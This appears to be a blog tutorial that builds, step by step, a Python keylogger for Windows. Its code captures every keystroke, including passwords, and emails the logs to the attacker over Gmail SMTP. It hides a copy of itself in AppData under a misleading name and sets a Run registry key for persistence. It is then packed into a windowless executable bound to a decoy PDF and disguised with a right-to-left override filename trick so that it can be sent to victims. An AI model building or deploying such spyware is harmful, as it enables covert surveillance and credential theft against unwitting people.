




Introduction:
A Keylogger is a type of software, a spyware that performs the action of recording the keys typed on a keyboard and sends the log to a remote destination, so that person using the keyboard is unaware that their actions are being monitored.
Therotical Working:
The Keylogger will log each typed keystroke and will send the entire log any email address after every specific period of time. We'll be defining the email adderss and the time interval during programming phase. The program will autostart after system boot-up without any notification and will continue sending logs through emails.
With a keylogger, you can record everything the user enters with their keyboard, it can be usernames, passwords, emails, chat messages and many more. I’ll be sharing the source code as well. It is because you can practice on your own and work around it.
Here’s how the Keylogger is going to work --- We’ll be creating a python script to which we’ll be converting it into a Windows executable (.exe) and will bind any random PDF so that it looks like a normal PDF and doesn't look suspicious.
Requirements:
Windows OS
Python 2.7
Program in Action:
Below is the demo of the final program in action.
Before we go ahead with the development, let me make you aware that I’ll be covering up all the basics required for the program so that you will not only understand how the Keylogger works but also you’ll be versed with the Python language.
Scope of Learning:
By the end of this blog, you’ll learn a bit about;
- Global variables
- Threading
- Recursion
- OOP
- Constructor methods
Libraries Used:
Most of the libraries will be installed by default, however, if you don’t have those installed, install it manually
- pynput : This library allows you to control and monitor input devices.
- threading : Allows us to run multiple threads (tasks, function calls) at the same time.
- smtplib : Defines an SMTP client session that can be used to send mails.
- subprocess : Allows you to spawn new processes, connect to their I/O, error pipes, and obtain their return codes.
- os : The module provides functions for interacting with the operating system.
- shutil : Module offers a number of high-level operations on files and collections of files.
- sys : It provides functions and variables which are used to manipulate different parts of the Python Runtime Environment.
Simple Keylog Printer:
Alright, enough with the theory, let’s begin to code.
Just fire up your favourite editor and create a new project and a python file within it. I’ll be using PyCharm.
I’ve named my file as pylogger.py
# codeblock 1.0
#!/usr/bin/env python
# encoding=utf8
import pynput.keyboard
# import module to capture pressed keys
def process_key_press(key):
print(key)
# get the pressed key and print it
keyboard_listener = pynput.keyboard.Listener(on_press=process_key_press)
# created a listener for logging each key and passing it to process_key_press
with keyboard_listener:
keyboard_listener.join()
# start the listener to record keys
Run the script. If you're using terminal/cmd, type python plogger.py, if using any IDE, jusct click on Run. To stop the script, type killall python
Output:
Global variable:
A global variable is accessable from any fucntion. It is declared outside of the function or in global scope. In our program instead of sending each typed character to our email, we’ll use a global variable log, where we’ll store those typed keys and send it to the specified email address after every defined period of time.
Also, if you see, there's an additional 'u' printed before every character. To remove this, we'll be declaring the key as a character.
# codeblock 2
#!/usr/bin/env python
# encoding=utf8
import pynput.keyboard
log = ""
# log is declared out of all the functions, this is where all the characters are stored, it is a global variable
def process_key_press(key):
global log
try:
log = log + str(key.char)
# store each key one by one as a character into log, keys other than character is not accepted (keys such as tabs, backspace, space etc.) hence try and except is implemented
except AttributeError:
# on pressing keys such as spacebar, we get AttributeError, hence except AttributeError
if key == key.space:
# since spacebar is mostly used while typing, we will replace key.space with an actual space
log = log + " "
else:
log = log + " " + str(key) + " "
print(log)
keyboard_listener = pynput.keyboard.Listener(on_press=process_key_press)
with keyboard_listener:
keyboard_listener.join()
Output:
Threading and Recursion:
Now we need to send the logged keys after every speicified period of time. We’ll be using another function report(), however, if we call this function with the main program and expect it to send the log after certain period of time, it will either never be executed or the execution will stuck forever in a loop.
Hence we need to use threading. The main program will continuously log the keys without inturuptions and the report() function will be executed seperately on a new thread after every specific period of time.
# codebloack 3
#!/usr/bin/env python
# encoding=utf8
import pynput.keyboard
import threading
# to supprt multithreading
log = ""
def process_key_press(key):
global log
try:
log = log + str(key.char)
except AttributeError:
if key == key.space:
log = log + " "
else:
log = log + " " + str(key) + " "
def report():
global log
print(log)
log = ""
# since we are reporting the log file, we must empty the log before it starts saving fresh keys
# basically we’ll drop the contents from the log once it is sent
timer = threading.Timer(60, report)
# timer will run on separate thread and will call report() module after every 60 seconds
# since we’re calling report() from report() it is called as recursive function
timer.start()
# timer will start
keyboard_listener = pynput.keyboard.Listener(on_press=process_key_press)
with keyboard_listener:
report()
keyboard_listener.join()
Output:
Object Oriented Programming:
Now that we have a Keylogger working perfectly, we just need to send the logs through emails.
Similar to the log that we’ve defined as a global variable, we’ll also have to define the username and the password as a global variable so that we can access the contents in other functions. Basically we’re hard coding those data into the program, however, this is not a good practice and hence the OOP needs to be implemented.
We’ll be using OOP in order to eliminate the usage of global variables and also we'll use classes. These classes allow us to use OOP where functions can be used as objects.
#codeblock 4
#!/usr/bin/env python
# encoding=utf8
import pynput.keyboard
import threading
log = ""
class Keylogger:
# you can name the class anything but with a capital intial letter, functions should have name with small initial letter and
# separated with an underscore _ , functions inside a class are called as methods, every method should have first argument as self,
# as every method that is defined inside a class is called on the instance of that object.
def process_key_press(self, key):
global log
try:
log = log + str(key.char)
except AttributeError:
if key == key.space:
log = log + " "
else:
log = log + " " + str(key) + " "
def report(self):
global log
print(log)
log = ""
timer = threading.Timer(5, self.report)
timer.start()
def start(self):
keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
with keyboard_listener:
self.report()
keyboard_listener.join()
If you try to run this program, it will not work as we’ve now created a class and haven’t used it, we now have to create an object to use this class.
We’ll create another file called as blogger.py which we'll have to run everytime to execute our program.
#codeblock 4.1
#!/usr/bin/env python
# encoding=utf8
import plogger
# importing our script containing the class
my_keylogger = plogger.Keylogger()
# we create a new object and store that in a new variable called as my_keylogger
my_keylogger.start()
# start the object
Output:
Constructor:
Constructor is a normal method which is executed automatically when a class is created. It is also known as initialization method.
It is a good place to define a variable so that we don’t need to use it everytime in every reuired method. So we’ll just remove global log from each method and define single self.log under the constructor.
#codeblock 5
#!/usr/bin/env python
# encoding=utf8
import pynput.keyboard
import threading
log = ""
class Keylogger:
def __init__(self):
self.log = ""
# global variable is defined so that we could remove it from each method
def append_to_log(self, string):
self.log = self.log + string
def process_key_press(self, key):
try:
current_key = str(key.char)
except AttributeError:
if key == key.space:
current_key = " "
else:
current_key = " " + str(key) + " "
self.append_to_log(current_key)
def report(self):
print(self.log)
self.log = ""
timer = threading.Timer(5, self.report)
timer.start()
def start(self):
keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
with keyboard_listener:
self.report()
keyboard_listener.join()
As we're just polishing the code, the output will be the same as before.
Until now, in our report() method, we were printing the log, but instead of printing it, we want the log to be sent to our email address, for that we're going to define another method called as send_mail()
#codeblock 6
#!/usr/bin/env python
# encoding=utf8
import pynput.keyboard
import threading
import smtplib
#for email support
log = ""
class Keylogger:
def __init__(self, time_interval, email, password):
self.log = "Keylogger Started..."
self.interval = time_interval
self.email = email
self.password = password
def append_to_log(self, string):
self.log = self.log + string
def process_key_press(self, key):
try:
current_key = str(key.char)
except AttributeError:
if key == key.space:
current_key = " "
else:
current_key = " " + str(key) + " "
self.append_to_log(current_key)
def report(self):
self.send_mail(self.email, self.password, " " + self.log)
# passes defined email, password and the our log to send_mail method
self.log = ""
timer = threading.Timer(self.interval, self.report)
# instead of hard coding time, we‘ll pass a variable and also we’ll define it in our constructor
timer.start()
def send_mail(self, email, password, message):
# says that it takes variables as email address, password and the message
server = smtplib.SMTP("smtp.gmail.com", 587)
# communicating with the Google's mail server by using the class from smtplib
# google runs its server on 587 port
server.starttls()
# starts the connection with the server
server.login(email, password)
# tries to login with the defined email address and password
server.sendmail(email, email, message)
# sends email from our email to our own email along with a message, which wil be our log
server.quit()
# stops the connection after sending an email
def start(self):
keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
with keyboard_listener:
self.report()
keyboard_listener.join()
#codeblock 6.1
#!/usr/bin/env python
# encoding=utf8
import plogger
my_keylogger = plogger.Keylogger(60, "your_email", "password")
#60 seconds of interval between reporting the log
my_keylogger.start()
Once you run this script, you should start receiving emails in your inbox along with the keylogs.
If you're using Gmail, you might want to switch on 'Less Secure App Access' from your Google account so as to allow our script to login to your account remotely. To do so, go to Manage your Google Account -> Security -> Less secure app access (switch it ON).
Now that our program is working perfectly, we'll now focus on making it auto-start on boot-up and later convert it into a Windows executable and bind a PDF along with it's icon.
Auto-Start on Boot-up:
The Keylogger will be of no use if it doesn't even start automatically after system reboot. To make it run automatically after booting the system, we'll add a new method called system_boot()
Now, to invoke our Keylogger after system boot, we need to add a key to Windows registry. We'll be adding the entry with the help of certain commands which will get executed soon after our user will double click our Keylogger.
This will be our final code!
#codebloack 7
#!/usr/bin/env python
# encoding=utf8
import pynput.keyboard
import threading
import smtplib
import os
# os commands support
import sys
# to copy our file to different location
import shutil
# to copy our file to different location
import subprocess
# to add entry in Windows registry
log = ""
class Keylogger:
def __init__(self, time_interval, email, password):
self.system_boot()
#initialisee method
self.log = "Keylogger Started..."
self.interval = time_interval
self.email = email
self.password = password
def system_boot(self):
keylogger_file_location = os.environ["AppData"] + "\\Windows Explorer.exe"
# first we get to know our users location and then copy our executable to that location with a different name to look less suspicious
if not os.path.exists(keylogger_file_location):
shutil.copyfile(sys.executable, keylogger_file_location)
# if our keylogger is not available on that location, then copy it
subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Update /t REG_SZ /d "' + keylogger_file_location + '"', shell=True)
# once the keylogger is copied, add an entry to the registry along with its location so that it will be invoked after every system reboot
os.chdir(sys._MEIPASS)
#since we'll be converting our .py to .exe while binding a pdf, on double clicking the .exe, the pdf will be extracted to this location
os.system('data_files\\sample.pdf')
#this is the location of our pdf
def append_to_log(self, string):
self.log = self.log + string
def process_key_press(self, key):
try:
current_key = str(key.char)
except AttributeError:
if key == key.space:
current_key = " "
else:
current_key = " " + str(key) + " "
self.append_to_log(current_key)
def report(self):
print(self.log)
self.send_mail(self.email, self.password, " " + self.log)
self.log = ""
timer = threading.Timer(self.interval, self.report)
timer.start()
def send_mail(self, email, password, message):
server = smtplib.SMTP("smtp.gmail.com", 587)
server.starttls()
server.login(email, password)
server.sendmail(email, email, message)
server.quit()
def start(self):
keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
with keyboard_listener:
self.report()
keyboard_listener.join()
#codeblock 7.1
#!/usr/bin/env python
# encoding=utf8
import plogger
my_keylogger = plogger.Keylogger(60, "your_email", "password")
#60 seconds of interval between reporting the log
my_keylogger.start()
We're done with the coding part! We'll not be able to run this code at the moment as we've defined the system_boot() method. Once we convert this into an .exe, it will work perfectly. Let's get into that!
Covert Python program (.py) to Windows executable (.exe)
To convert our python program to Windows executable, we'll be using a module called as pyinstaller.
We'll have to install this module, so just open your terminal/cmd and type below command.
pip install pyinstaller
Once the pyinstaller is installed, make sure you keep your PDF file in data_files folder within the same project directory.
We'll also need an icon. Just download any PDF icon from Google (with .ico extenstion) and paste it int he same folder.
Once you're done with that, just run the below command and it will generate an .exe file into the dist folder in the same project directoy.
pyinstaller --onefile --noconsole --add-data="C:\Users\forty\PycharmProjects\Blogger\data_files\sample.pdf;data_files" --icon "C:\Users\forty\PycharmProjects\Blogger\data_files\online.ico" blogger.py
Just navigate to dist folder and you should have a Windows executable which is our final Keylogger.
Change .exe to .pdf
We now have our functional Keylogger. If we send this to someone, they might get suspicious as they will see that the file looks like a PDF but has an .exe extenstion. Therefore, it's time for us to change the file format.
We cannot directly change the format by renaming our Keylogger, that will definitely not work, instead, we'll this trick.
We'll be using the a tool called as Character Map from Windows. It is pre-installed and is available by default.
Once you open the tool, below right corner you'll see 'Go to Unicode', type 202E and press enter and then click on the first character, select it and press copy.
The character which we have selected, it reverses the characters order from right to left. So if we write fdp it will be changed to pdf.
So now, open a notepad and write, annfdp.exe
After ann paste our selected character and you will see that it will become, annexe.pdf
That's it, now just copy it and rename our Keylogger and you're done.
Your .exe has now became a .pdf
You just have to send this file to anyone and once they double click it, our attached PDF will open and the Keylogger will start in the backgound without any notification and also it will add a copy of itself to the appdata/roaming location with a different name and will add a key to registry so that it can auto-start after system reboot.
Above are the emails received from our Keylogger along with the keystrokes and below that you can see that a key has been registered in Windows registry.
Your Keylogger is now ready. You can send it directly to anyone, or you can bind it to any backdoor, it's your choice.
Thank you for sticking around, I know it's a really long post, but I hope you've learnt something out of it.